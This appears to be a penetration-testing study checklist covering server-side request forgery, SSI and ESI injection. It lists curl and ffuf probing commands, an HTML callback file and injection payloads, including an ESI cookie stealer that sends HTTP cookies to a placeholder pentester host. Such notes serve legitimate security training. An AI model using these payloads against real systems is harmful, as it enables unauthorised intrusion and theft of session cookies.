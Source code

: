 

- [ ]  Check for SSRF explisit by testing the parameter 
```shell-session
curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:8080"
```
- [ ] Check for blind SSRF with a Net Cat listener 

- [ ] if a SSRF is found, check for internal application on different ports by doing por fuzzing 

```shell-session
ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://127.0.0.1:PORT" -fs 30
```


- [ ] Check for blind SSRF  by checking request with NC , but some times you can use a file for that. Not sure with that possible on the exame but try using something like this 
```html
<!DOCTYPE html>
<html>
<body>
	<a>Hello World!</a>
	<img src="http://<SERVICE IP>:PORT/x?=viaimgtag">
</body>
</html>
```

## SSI
- [ ] Check for SSI by using the payloads, on places that might be reflect on the page  

```html
1. <!--#echo var="DATE_LOCAL" -->
2. <!--#printenv -->
```

## ESI
- [ ] For ESI i think would be the same, use the payload below to check for injection points 

```html
// Basic detection
<esi: include src=http://<PENTESTER IP>>

// XSS Exploitation Example
<esi: include src=http://<PENTESTER IP>/<XSSPAYLOAD.html>>

// Cookie Stealer (bypass httpOnly flag)
<esi: include src=http://<PENTESTER IP>/?cookie_stealer.php?=$(HTTP_COOKIE)>

// Introduce private local files (Not LFI per se)
<esi:include src="supersecret.txt">

// Valid for Akamai, sends debug information in the response
<esi:debug/>
```

## SSTI 
For SSTI this might help if a injection points is found 
